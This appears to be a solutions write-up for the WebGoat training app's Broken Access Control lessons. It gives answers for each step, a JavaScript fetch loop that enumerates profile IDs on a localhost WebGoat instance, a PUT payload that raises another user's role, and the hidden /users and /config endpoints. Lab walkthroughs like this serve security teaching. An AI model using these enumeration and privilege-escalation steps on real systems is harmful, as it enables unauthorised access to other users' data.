 # (A5) Broken Access Control

## Insecure Direct Object References

### Lesson 2: Authenticate First, Abuse Authorization Later

Just type `tom` and `cat`

### Lesson 3: Observing Differences & Behaviors

Open DevTools and in `Network` tab find `profile` request. Find response and type `role,userId` into input.

![/profile](img/Zrzut_ekranu_2023-03-23_210217.png "/profile")

### Lesson 4: Guessing & Predicting Patterns

In previous [Lesson](#lesson-3-just-try-it) you sent request to `http://localhost:8081/WebGoat/IDOR/profile`. Common practice is to prepare endpoints as `WebGoat/IDOR/profile/{id}`, paste your userId found in request, eg. `WebGoat/IDOR/profile/2342384`

### Lesson 5: Playing with the Patterns

- use this script to find another user id.

  ``` js
  for(i = 1; i < 100; i++) {
    let result = await fetch("http://localhost:8081/WebGoat/IDOR/profile/" + (parseInt(2342384+i)));
    if(result.status === 200) {
        console.log(await result.json());
        break;
    }
  }
  ```

- the result will be like this:

  ``` json
  {
    "lessonCompleted": true,
    "feedback": "Well done, you found someone else's profile",
    "output": "{role=3, color=brown, size=large, name=Buffalo Bill, userId=2342388}",
    "assignment": "IDORViewOtherProfile",
    "attemptWasMade": true
  }
  ```

- then we should edit this user, we will use `PUT` method. Payload:

  ``` json
  {
    "role" : 1,
    "color": "red",
    "size": "large",
    "name": "Bufallo Bill",
    "userId": "2342388"
  }
  ```

  remember to set `Content-Type` to `application/json`

  ![update another user](img/Zrzut_ekranu_2023-03-23_213108.png "update another user")

## Missing Function Level Access Contol

### Lesson 2: Relying on Obscurity

- Look for hidden list in DOM structure

  ![Hidden DOM Elements](img/Zrzut_ekranu_2023-03-22_232717.png "Hidden DOM Elements")

- `Users` and `Config`

### Lesson 3: Just Try It

- Hint says to look for hidden endpoints from the prevoius [Lesson](#lesson-2-relying-on-obscurity). There was two `/config` and `/users`. So the full url is `http://localhost:8081/WebGoat/users`. Another hint says to set `Content-Type` to `application/json`.

  ![/users](img/Zrzut_ekranu_2023-03-23_205154.png "/users")
